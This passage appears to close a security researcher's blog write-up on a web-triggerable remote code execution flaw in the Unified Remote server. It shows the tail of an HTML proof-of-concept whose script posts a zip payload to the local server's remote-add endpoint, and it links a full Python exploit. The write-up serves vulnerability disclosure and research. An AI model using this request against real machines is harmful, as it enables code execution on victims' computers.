 ```html
  let xhr = new XMLHttpRequest();
  xhr.open("POST","http://localhost:9510/system/remote/add?filename=PoC.zip",false);
  xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
  xhr.send(blob);
</script>
</body>
</html>
```

Finally, I had achieved a potential script to prove for Web Triggerable Remote Code Execution. To prove for it I used a static HTML response Workflow from Pipedream to test and hopefully prove for its exploitability from any internet origin.


![Oops...](../assets/img/urwtrce-proof.gif)

A successful day wasted at my keyboard. Thanks for reading, I have attached a link to a full Python script proof of concept I made to automate updating and serving the payload page. The exploit still affects the most current version of Unified Remote too as of writing (3.13).

[Unfied Remote - Web Triggerable Remote Code Execution](https://github.com/H4rk3nz0/PenTesting/blob/main/Exploits/unified%20remote/unified-remote-web-triggerable-rce.py)
